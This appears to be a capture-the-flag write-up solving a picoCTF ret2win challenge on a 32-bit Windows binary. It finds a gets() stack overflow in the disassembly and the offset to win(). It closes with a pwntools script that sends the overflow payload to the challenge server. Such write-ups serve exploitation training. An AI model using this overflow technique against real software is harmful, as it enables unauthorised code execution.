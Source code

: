 ```c

int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);
  vuln();
  return 0;
}
```

It's a simple `ret2win` program in `windows`. We need to find the address of `win()` and the overflow offset.

```gdb
gef➤  disass vuln
Dump of assembler code for function vuln:
   0x004015a9 <+0>:	push   ebp
   0x004015aa <+1>:	mov    ebp,esp
   0x004015ac <+3>:	sub    esp,0x98
   0x004015b2 <+9>:	mov    DWORD PTR [esp],0x404035
   0x004015b9 <+16>:	call   0x402684 <puts>
   0x004015be <+21>:	lea    eax,[ebp-0x88]
   0x004015c4 <+27>:	mov    DWORD PTR [esp],eax
   0x004015c7 <+30>:	call   0x40269c <gets>
   0x004015cc <+35>:	nop
   0x004015cd <+36>:	leave  
   0x004015ce <+37>:	ret    
End of assembler dump.
gef➤  p win
$1 = {<text variable, no debug info>} 0x401530 <win>
```

The offset seems to be at `0x98` bytes and the address of `win` is `0x401530`.

```bash
➜  flag leak git:(main) ✗ python solver.py
b'Unhandled exception: page fault on read access to 0x41414141 in 32-bit code (0x41414141)
```

The offset might be wrong so we alter it a bit.

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')
context.log_level = 'critical'

r = remote('saturn.picoctf.net', 62293)

r.sendline(b'A'*(0x98-12) + p32(0x401530))
r.recvline()
print(f'\nFlag --> {r.recvline().strip().decode()}\n')
```
